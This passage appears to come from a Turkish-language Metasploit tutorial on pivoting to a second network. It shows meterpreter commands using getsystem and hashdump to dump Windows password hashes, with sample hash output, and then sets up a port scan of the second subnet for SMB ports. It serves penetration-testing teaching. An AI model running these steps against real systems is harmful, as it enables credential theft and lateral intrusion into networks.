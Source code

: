 

## 2.Bilgisayara Bağlantı



İlk bilgisayarda `getsystem` komutuyla hash bilgilerini elde edelim. Bu hash bilgilerini kullanarak 2. bilgisayara bağlanmaya çalışacağız. Ağdaki bilgisayarların, hash değerleriyle yetki kontrolü yaptığını hatırlayın. Bu teknikle ilgili <a href="https://siberoloji.github.io/metaspliot-framework-yetki-yukseltme/">Metasploit Framework Yetki Yükseltme</a> yazısına bakabilirsiniz.



Aşağıdaki komutlarla, `getsystem` ile SYSTEM bilgilerini elde ediyoruz, `hashdump` ile hash bilgilerini alıyoruz ve `CTRL+Z` tuşları ile oturumu arka plana gönderiyoruz.


```bash
meterpreter **&gt;** getsystem
...got system **(**via technique 1**)**.

meterpreter **&gt;** run hashdump
**[*********]** Obtaining the boot key...
**[*********]** Calculating the hboot key using SYSKEY c2ec80f879c1b5dc8d2b64f1e2c37a45...
**[*********]** Obtaining the user list and keys...
**[*********]** Decrypting user keys...
**[*********]** Dumping password hashes...


Administrator:500:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9a6ae26408b0629ddc621c90c897b42d:07a59dbe14e2ea9c4792e2f189e2de3a:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:ebf9fa44b3204029db5a8a77f5350160:::
victim:1004:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::


meterpreter **&gt;** 
Background session 1? **[**y/N]  
msf exploit**(**ms10_002_aurora**)** **&gt;**
```



## 2.Bilgisayar Ağını Tarama



Rotalama sayesinde artık 2. bilgisayar ağı ile haberleşebiliyoruz. O zaman bu ağı tarayalım ve `139` ile `445` numaralı portları açık olup olmadığına bakalım. İsterseniz tüm portları da tarayabilirsiniz. Biz sadece örnek vermek için bu iki portu tarayacağız. Bu tarama işlemi için `auxiliary/scanner/portscan/tcp` modülünü kullanacağız. Modülde RHOSTS değişkenini `RHOSTS 10.1.13.0/24` olarak ayarladığımıza dikkat edin.


```bash
msf exploit**(**ms10_002_aurora**)** **&gt;** use auxiliary/scanner/portscan/tcp 
msf auxiliary**(**tcp**)** **&gt;** show options

Module options:

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   FILTER                        no        The filter string **for **capturing traffic
   INTERFACE                     no        The name of the interface
   PCAPFILE                      no        The name of the PCAP capture file to process
   PORTS        1-10000          yes       Ports to scan **(**e.g. 22-25,80,110-900**)**
   RHOSTS                        yes       The target address range or CIDR identifier
   SNAPLEN      65535            yes       The number of bytes to capture
   THREADS      1                yes       The number of concurrent threads
```